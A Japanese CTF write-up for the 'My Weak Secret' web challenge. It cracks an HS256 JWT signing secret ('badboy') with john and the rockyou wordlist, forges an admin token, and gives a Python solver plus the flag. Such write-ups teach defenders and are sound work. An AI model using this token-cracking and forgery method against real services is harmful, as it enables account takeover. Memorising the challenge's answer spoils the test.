 # My Weak Secret

```txt
Never use weak secrets. I repeat NEVER.
http://chall.nitdgplug.org:30299
```

## Solution

問題にアクセスすると、ログイン画面が表示されます。

![img1](img/img1.png)

試しに適当な入力でログインしてみると、`/flag` にアクセスして以下の内容が表示されました。

![img2](img/img2.png)

どうやら `admin` でアクセスしてくれということです。

この時のリクエストを見てみると、Cookie の token に JWT が入っていました。

```http
GET /flag HTTP/1.1
Host: chall.nitdgplug.org:30299
 ...
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZXJyb3IifQ.XALcPJYbkoM2OvMjOrFCBb5w4CuYSavfjgCL_RHymjU
Upgrade-Insecure-Requests: 1

```

JWT をデコードしてみると以下の内容になっていて、ペイロードに `user` があることがわかります。

```json
Headers = {
  "alg": "HS256",
  "typ": "JWT"
}

Payload = {
  "user": "error"
}

Signature = "XALcPJYbkoM2OvMjOrFCBb5w4CuYSavfjgCL_RHymjU"
```

今回の JWT は、`HS256` のアルゴリズムで署名されています。

そして問題文にあるように弱いシークレットキーで署名がされていると推測できます。

なのでパスワードクラックツールである `john` コマンドを使ってシークレットキーをチェックします。

```shell
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256 jwt.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
badboy           (?)
1g 0:00:00:00 DONE (2021-04-02 13:09) 100.0g/s 51200p/s 51200c/s 51200C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

これで署名に使われたシークレットキーが `badboy` とわかりました。

なのでこれを使ってペイロードを以下のように改ざんして新しい JWT を生成させます。

```json
Payload = {
  "user": "admin"
}
```

改ざんには jwt.io を使うと簡単に生成することができます。

Solver
```python
#!/usr/bin/python3
import requests
import re
import jwt

url = 'http://chall.nitdgplug.org:30299/flag'

secret = "badboy"
jwt = jwt.encode({"user": "admin"}, secret, algorithm="HS256")
jar = {'token': jwt}

response = requests.get(url, cookies=jar)
source = response.text

print(re.findall(r'(GLUG\{.+\})', source)[0])
```

```shell
$ python3 solve.py
GLUG{us3_5tr0ng_jw7_s3cr37}
```

## Flag

flag : `GLUG{us3_5tr0ng_jw7_s3cr37}`